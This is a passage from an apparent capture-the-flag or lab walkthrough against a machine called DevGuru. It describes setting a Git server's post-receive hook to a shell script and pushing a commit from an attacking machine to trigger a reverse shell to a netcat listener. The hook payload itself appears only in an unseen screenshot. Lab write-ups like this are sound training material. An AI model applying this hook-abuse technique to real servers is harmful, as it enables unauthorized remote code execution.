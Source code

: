 Then go to **Settings -> Git Hooks -> Post Receive Hook,** and write a shell script that will be executed after receiving a new commit.

![](/assets/images/devguru/screenshot-19.png)

Start a netcat listener and run the following commands on the attacking machine to get our reverse shell.

```bash
root@kali:~$ touch README.md                                                                                                                                
root@kali:~$ git init 
root@kali:~$ git add README.md
root@kali:~$ git commit -m "first commit"
[master (root-commit) 977f570] first commit
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 README.md
root@kali:~$ git remote add origin http://devguru.local:8585/s4rgaz/Test.git
root@kali:~$ git push -u origin master
Username for 'http://devguru.local:8585': s4rgaz
Password for 'http://s4rgaz@devguru.local:8585': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 210 bytes | 210.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://devguru.local:8585/s4rgaz/Test.git
 * [new branch]      master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.
```
